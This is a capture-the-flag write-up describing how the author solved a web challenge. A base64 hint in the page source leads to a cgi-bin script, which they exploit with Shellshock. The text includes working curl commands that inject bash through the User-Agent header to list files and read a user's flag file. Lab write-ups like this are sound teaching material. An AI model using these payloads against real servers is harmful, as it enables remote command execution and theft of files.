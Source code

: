 <img src="https://imgur.com/NS6QZ4p.png"/>

Looking at the source code we find base64 encoded text

```
Like the way you think spidey Y2dpLWJpbi90ZXN0LnNo 
```

On decoding

<img src="https://imgur.com/XVHZYRf.png"/>

I search on google about `cgi-bin` and found that they are mostly vulnerable to `shellshock` that allows execution of bash commands

On refering to this blog post

`https://wywyit.medium.com/ritsec-fall-2018-ctf-week-6-45d414035c76`


I used

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -type "*.txt"'" http://challenges.ctfd.io:30328/cgi-bin/test.sh
```

And it gave me a bunch of files

<img src="https://imgur.com/VxDcMQi.png"/>

At the bottom I found

```
/usr/lib/python3.8/LICENSE.txt                                            
/tmp/bash-4.3/doc/article.txt                                             
/tmp/bash-4.3/doc/fdl.txt                                                 
/tmp/bash-4.3/examples/INDEX.txt                                          
/home/admin/root.txt                                                                                                                                
/home/herman/user.txt  
```

```
Bsides Islamabad# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/herman/user.txt'" http://challenges.ctfd.io:30328/cgi-bin/test.sh

Bsides-PK-Fl4g{sinister_six}
```
And that was our flag !
